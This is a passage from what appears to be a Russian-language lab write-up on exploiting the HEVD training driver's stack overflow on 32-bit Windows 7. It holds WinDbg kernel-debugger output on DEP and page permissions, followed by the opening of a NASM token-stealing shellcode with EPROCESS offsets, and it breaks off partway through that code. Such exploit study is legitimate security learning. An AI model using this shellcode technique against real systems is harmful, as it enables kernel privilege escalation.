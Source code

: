 ```js
kd> dd /c1 esp L3
    abeedab4  004040c0
    abeedab8  0022f680
    abeedabc  00000824
```

Адрес из даты
Бита нету

```js
kd> !pte 004040c0
                    VA 004040c0
PDE at C0600010            PTE at C0002020
contains 0000000051BD3867  contains 8000000051C05025
pfn 51bd3     ---DA--UWEV  pfn 51c05     ----A--UR-V
```

Сидим курим бамбук…
```js
kd> t
    004040c0 60              pushad
kd> t
Access violation - code c0000005 (!!! second chance !!!)
    004040c0 60              pushad
```

### [](#header-3)Включен DEP + shellc_ptr

Куча

```js
HEVD!TriggerStackOverflow+0xc8:
aa35e6f2 c20800          ret     8
kd> dd /c1 esp L3
    ab163ab4  002c0000
    ab163ab8  0022f680
    ab163abc  00000824
```

Исполняемая

```js
kd> !pte 002c0000
                    VA 002c0000
PDE at C0600008            PTE at C0001600
contains 0000000058F7E867  contains 000000005903D867
pfn 58f7e     ---DA--UWEV  pfn 5903d     ---DA--UWEV
```

### [](#header-3)Код

**shellcode.asm**

```nasm
; nasm -f bin shellcode.bin shellcode.asm

[bits 32]

;FS:[0](_KPCR) --> _KPCR+0x120 (PrcbData _KPRCB) --> _KPRCB+0x4 (CurrentThread _KTHREAD) --> _KTHREAD+0x40 (ApcState _KAPC_STATE) --> _KAPC_STATE+0x10 (Process _KPROCESS)
;_EPROCESS.UniqueProcessId 		_EPROCESS+0xb4
;_EPROCESS.ActiveProcessLinks		_EPROCESS+0xb8
;_EPROCESS.Token			_EPROCESS+0xf8

section .text
	WIN7_SP1_SYS_PID		equ 004h	; System PID in Windows 7 SP1 x86
	WIN7_SP1_PID_OFFSET		equ 0B4h	; nt!_EPROCESS.UniqueProcessId
	WIN7_SP1_TOKEN_OFFSET		equ 0F8h	; nt!_EPROCESS.Token
```